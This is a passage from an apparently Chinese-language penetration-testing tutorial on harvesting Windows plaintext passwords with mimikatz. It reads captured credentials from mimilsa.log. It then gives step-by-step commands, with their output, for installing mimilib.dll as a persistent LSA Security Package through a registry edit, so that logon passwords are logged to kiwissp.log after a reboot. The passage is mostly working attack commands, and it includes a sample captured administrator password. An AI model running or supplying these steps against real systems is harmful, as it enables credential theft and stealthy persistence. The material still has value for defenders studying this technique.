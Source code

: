 注销当前用户重新登录，即可获取明文密码，密码存储在日志文件C:\Windows\system32\mimilsa.log中。

```dos
type C:\Windows\system32\mimilsa.log
```

```test
C:\Users\Administrator>type C:\Windows\system32\mimilsa.log
[00000000:00063a51] DC\Administrator    admin.098
```

#### 方法二

将mimikatz中的mimilib.dll 放到系统的C:\Windows\system32目录下（DLL的位数需要与windows位数相同），并将mimilib.dll添加到注册表中，使用此方法即使系统重启，也不会影响到持久化的效果。

```dos
copy mimilib.dll %systemroot%\system32
reg query hklm\system\currentcontrolset\control\lsa\ /v "Security Packages"
reg add "hklm\system\currentcontrolset\control\lsa\" /v "Security Packages" /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
```

```test-dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>copy mimilib.dll %systemroot%\
system32
已复制         1 个文件。

C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u
```

注意：最后一步修改注册表需要在powershell命令行下操作，cmd下可能会报错。

```dos
PS C:\Users\Administrator> reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v "Security Packages" /t REG_MULTI_SZ /d "kerberos\0msv1_0\0schannel\0wdigest\0tspkg\0pku2u\0mimilib" /t REG_MULTI_SZ
值 Security Packages 已存在，要覆盖吗(Yes/No)? y
操作成功完成。
```

查看注册表 hklm\system\currentcontrolset\control\lsa\Security Packages项的值。

```dos
C:\Users\Administrator\Desktop\mimikatz_trunk\x64>reg query hklm\system\currentc
ontrolset\control\lsa\ /v "Security Packages"

HKEY_LOCAL_MACHINE\system\currentcontrolset\control\lsa
    Security Packages    REG_MULTI_SZ    kerberos\0msv1_0\0schannel\0wdigest\0ts
pkg\0pku2u\0mimilib
```

系统重启后，若dll被成功加载，用户在登录时输入的账号和密码明文就会被记录在C:\Windows\system32\kiwissp.log中。
